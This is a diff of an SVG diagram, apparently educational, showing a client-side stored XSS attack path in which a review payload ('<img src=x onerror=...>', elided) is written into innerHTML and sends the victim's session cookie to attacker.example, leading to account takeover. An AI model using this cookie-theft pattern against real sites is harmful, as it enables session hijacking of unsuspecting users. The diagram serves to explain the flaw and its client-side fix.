

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1320 280" width="1320" height="280" font-family="'Space Grotesk','Segoe UI',system-ui,sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1040 576" width="1040" height="576" font-family="'Space Grotesk','Segoe UI',system-ui,sans-serif">
  <defs>
    <pattern id="grid" width="24" height="24" patternUnits="userSpaceOnUse">
      <path d="M24 0H0V24" fill="none" stroke="#21262d" stroke-width="1" opacity="0.5" />
    </pattern>
-     <marker id="arrow" markerWidth="9" markerHeight="9" refX="6.5" refY="3" orient="auto" markerUnits="strokeWidth">
+     <marker id="ar" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
      <path d="M0,0 L7,3 L0,6 Z" fill="#8b949e" />
    </marker>
-     <marker id="arrow-green" markerWidth="9" markerHeight="9" refX="6.5" refY="3" orient="auto" markerUnits="strokeWidth">
-       <path d="M0,0 L7,3 L0,6 Z" fill="#4ade80" />
+     <marker id="arRed" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
+       <path d="M0,0 L7,3 L0,6 Z" fill="#f85149" />
+     </marker>
+     <marker id="arAmber" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
+       <path d="M0,0 L7,3 L0,6 Z" fill="#d29922" />
    </marker>
  </defs>
-   <rect x="0" y="0" width="1320" height="280" fill="#0d1117" />
-   <rect x="0" y="0" width="1320" height="280" fill="url(#grid)" />
-   <text x="22" y="40" font-size="13" font-family="'JetBrains Mono',monospace" fill="#00caff" letter-spacing="1">&gt;_</text>
-   <text x="50" y="42" font-size="20" font-weight="700" fill="#e6edf3">Stored XSS (Client-Side) - Attack Path</text>
-   <circle cx="852" cy="36" r="5" fill="#f85149" />
-   <text x="864" y="40" font-size="12" fill="#8b949e">vulnerable step</text>
-   <circle cx="992" cy="36" r="5" fill="#f97316" />
-   <text x="1004" y="40" font-size="12" fill="#8b949e">impact</text>
-   <circle cx="1092" cy="36" r="5" fill="#4ade80" />
-   <text x="1104" y="40" font-size="12" fill="#8b949e">goal</text>
-   <g stroke-width="1.5">
-     <line x1="160" y1="162" x2="179" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="322" y1="162" x2="341" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="484" y1="162" x2="503" y2="162" stroke="#8b949e" stroke-dasharray="4 3" marker-end="url(#arrow)" />
-     <line x1="646" y1="162" x2="665" y2="162" stroke="#f85149" marker-end="url(#arrow)" />
-     <line x1="808" y1="162" x2="827" y2="162" stroke="#f97316" marker-end="url(#arrow)" />
-     <line x1="970" y1="162" x2="989" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="1132" y1="162" x2="1151" y2="162" stroke="#4ade80" marker-end="url(#arrow-green)" />
-   </g>
-   <text x="493" y="146" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#6e7681">stored ·</text>
-   <text x="493" y="186" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#6e7681">waits</text>
-   <rect x="20" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#00caff" stroke-width="1.5" />
-   <text x="90" y="167" text-anchor="middle" font-size="14" font-weight="700" fill="#5cd6f7">Attacker</text>
-   <rect x="182" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="252" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">1. Post payload</text>
-   <text x="252" y="177" text-anchor="middle" font-size="11" fill="#8b949e">in a review</text>
-   <rect x="344" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="414" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">2. Server stores</text>
-   <text x="414" y="177" text-anchor="middle" font-size="11" fill="#8b949e">it in the database</text>
-   <rect x="506" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="576" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">3. Victim opens</text>
-   <text x="576" y="177" text-anchor="middle" font-size="11" fill="#8b949e">the page (logged-in)</text>
-   <rect x="668" y="120" width="140" height="84" rx="6" fill="#1c2128" stroke="#f85149" stroke-width="2" />
-   <text x="738" y="154" text-anchor="middle" font-size="12" font-weight="600" fill="#e6edf3">4. JS writes body</text>
-   <text x="738" y="178" text-anchor="middle" font-size="12" font-weight="700" fill="#ff6b6b" letter-spacing="0.3">into innerHTML</text>
-   <rect x="830" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#f97316" stroke-width="1.5" />
-   <text x="900" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">5. Handler runs in</text>
-   <text x="900" y="177" text-anchor="middle" font-size="11" fill="#8b949e">victim's browser</text>
-   <rect x="992" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="1062" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">6. Token sent to</text>
-   <text x="1062" y="177" text-anchor="middle" font-size="11" fill="#8b949e">attacker server</text>
-   <rect x="1154" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#4ade80" stroke-width="2" />
-   <text x="1224" y="154" text-anchor="middle" font-size="11.5" font-weight="700" fill="#4ade80">7. Account takeover</text>
-   <text x="1224" y="177" text-anchor="middle" font-size="11" fill="#8b949e">hits every viewer</text>
-   <text x="22" y="252" font-size="12.5" fill="#6e7681">The payload is stored once; the server returns it as JSON and the page's own JavaScript writes it into innerHTML, so it runs in every viewer's session and View-Source stays clean.</text>
+   <rect x="0" y="0" width="1040" height="576" fill="#0d1117" />
+   <rect x="0" y="0" width="1040" height="576" fill="url(#grid)" />
+   <text x="22" y="34" font-size="13" font-family="'JetBrains Mono',monospace" fill="#00caff" letter-spacing="1">&gt;_</text>
+   <text x="50" y="36" font-size="19" font-weight="700" fill="#e6edf3">Stored XSS (Client-Side) - Attack Path</text>
+   <line x1="892" y1="20" x2="916" y2="20" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="922" y="24" font-size="11" fill="#8b949e">request</text>
+   <line x1="892" y1="38" x2="916" y2="38" stroke="#8b949e" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar)" />
+   <text x="922" y="42" font-size="11" fill="#8b949e">response</text>
+   <line x1="892" y1="56" x2="916" y2="56" stroke="#f85149" stroke-width="1.5" marker-end="url(#arRed)" />
+   <text x="922" y="60" font-size="11" fill="#ff6b6b">vulnerable step</text>
+   <line x1="150" y1="110" x2="150" y2="500" stroke="#30363d" stroke-width="1.5" stroke-dasharray="4 5" />
+   <line x1="480" y1="110" x2="480" y2="500" stroke="#30363d" stroke-width="1.5" stroke-dasharray="4 5" />
+   <line x1="800" y1="110" x2="800" y2="500" stroke="#30363d" stroke-width="1.5" stroke-dasharray="4 5" />
+   <rect x="75" y="64" width="150" height="46" rx="6" fill="#161b22" stroke="#00caff" stroke-width="1.5" />
+   <text x="150" y="87" text-anchor="middle" font-size="14" font-weight="700" fill="#5cd6f7">Attacker</text>
+   <text x="150" y="101" text-anchor="middle" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">attacker.example</text>
+   <rect x="405" y="64" width="150" height="46" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
+   <text x="480" y="87" text-anchor="middle" font-size="14" font-weight="700" fill="#e6edf3">Victim</text>
+   <text x="480" y="101" text-anchor="middle" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">logged-in user</text>
+   <rect x="725" y="64" width="150" height="46" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
+   <text x="800" y="87" text-anchor="middle" font-size="14" font-weight="700" fill="#e6edf3">Server</text>
+   <text x="800" y="101" text-anchor="middle" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">shop.example</text>
+   <text x="480" y="134" text-anchor="middle" font-size="9.5" font-style="italic" fill="#6e7681">logged in to shop.example, session cookie readable by JS</text>
+   <text x="475" y="147" text-anchor="middle" font-size="11" fill="#e6edf3">1. POST /review (stored)</text>
+   <text x="475" y="159" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">body=&lt;img src=x onerror=...&gt;</text>
+   <line x1="158" y1="166" x2="792" y2="166" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="812" y="162" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">saved to the database</text>
+   <text x="800" y="224" text-anchor="middle" font-size="9" font-style="italic" font-family="'JetBrains Mono',monospace" fill="#6e7681">stored as data, returned to every viewer</text>
+   <text x="640" y="229" text-anchor="middle" font-size="11" fill="#e6edf3">2. GET / then GET /api/reviews</text>
+   <text x="640" y="241" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">Cookie: session=...</text>
+   <line x1="488" y1="248" x2="792" y2="248" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="640" y="299" text-anchor="middle" font-size="11" fill="#e6edf3">3. 200 OK: stored review returned as JSON data</text>
+   <line x1="792" y1="306" x2="488" y2="306" stroke="#8b949e" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar)" />
+   <rect x="340" y="356" width="280" height="50" rx="6" fill="#1c2128" stroke="#f85149" stroke-width="1.5" />
+   <text x="480" y="377" text-anchor="middle" font-size="10.5" font-weight="600" fill="#e6edf3">JS writes review.body into innerHTML</text>
+   <text x="480" y="393" text-anchor="middle" font-size="9" fill="#8b949e">the &lt;img onerror&gt; payload runs (DOM sink)</text>
+   <text x="315" y="419" text-anchor="middle" font-size="11" fill="#e6edf3">4. GET attacker.example/?c=...</text>
+   <text x="315" y="431" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">c = document.cookie (session)</text>
+   <line x1="472" y1="438" x2="158" y2="438" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="22" y="526" font-size="12.5" fill="#6e7681">The server returns the stored review as JSON data, not HTML; the page renders it with innerHTML, so the bug is client-side and fires for every viewer.</text>
+   <text x="22" y="544" font-size="12.5" fill="#6e7681">It is fixed in the client code, but the result is still <tspan fill="#4ade80" font-weight="700">account takeover</tspan>.</text>
</svg>
